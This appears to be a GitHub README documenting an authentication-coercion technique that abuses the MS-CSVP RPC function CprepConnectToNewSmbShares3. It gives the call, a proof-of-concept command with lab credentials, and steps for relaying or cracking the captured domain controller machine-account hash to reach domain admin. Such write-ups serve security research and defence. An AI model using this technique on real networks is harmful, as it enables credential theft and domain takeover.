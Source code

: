 # MS-CSVP - Remote call to CprepConnectToNewSmbShares3 (opnum 8)

## Summary

 - **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

 - **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CprepConnectToNewSmbShares3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/aa2f7339-c1f7-473b-a2b7-94838b6657d4)

 - **Function operation number**: `8`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepConnectToNewSmbShares3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/aa2f7339-c1f7-473b-a2b7-94838b6657d4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepConnectToNewSmbShares3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepConnectToNewSmbShares3(
   [in, string, size_is(dwNumberOfPaths,)] 
     LPWSTR* ppwszSharePaths,
   [in] DWORD dwNumberOfPaths
 );
```

## References

 - Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

 - Documentation of function `CprepConnectToNewSmbShares3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/aa2f7339-c1f7-473b-a2b7-94838b6657d4